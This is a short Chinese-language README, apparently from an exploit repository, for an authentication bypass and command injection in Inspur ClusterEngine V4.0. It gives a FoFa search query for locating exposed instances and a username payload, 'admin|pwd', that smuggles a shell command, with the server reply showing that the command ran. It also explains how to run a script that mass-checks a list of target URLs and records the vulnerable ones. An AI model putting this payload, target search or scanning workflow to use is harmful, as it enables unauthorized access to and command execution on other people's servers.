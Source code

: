 # 影响范围：  
已知浪潮ClusterEngineV4.0  
# FoFa fork:  
title="TSCEV4.0"
# 漏洞复现  
访问登录页面：  
https://xxx.xxx.xxx.xxx:8443/module/login/login.html 
  
![image](image/login.png)  
  
使用用户名admin|pwd和任意密码进行登录  
  
![image](image/username.png) 

![image](image/burp.png)

服务器返回结果：  

```
{"err":"","exitcode":0,"out":"/\n"}
```

登陆成功，进入管理界面！！！  

![image](image/frame.png)

# 脚本使用
待检测地址存放在Url.txt中，保存在脚本同目录下,脚本运行成功会将存在漏洞地址保存在当前目录下的result.txt中。

python3 any-user-login.py 

![image](image/run.png)





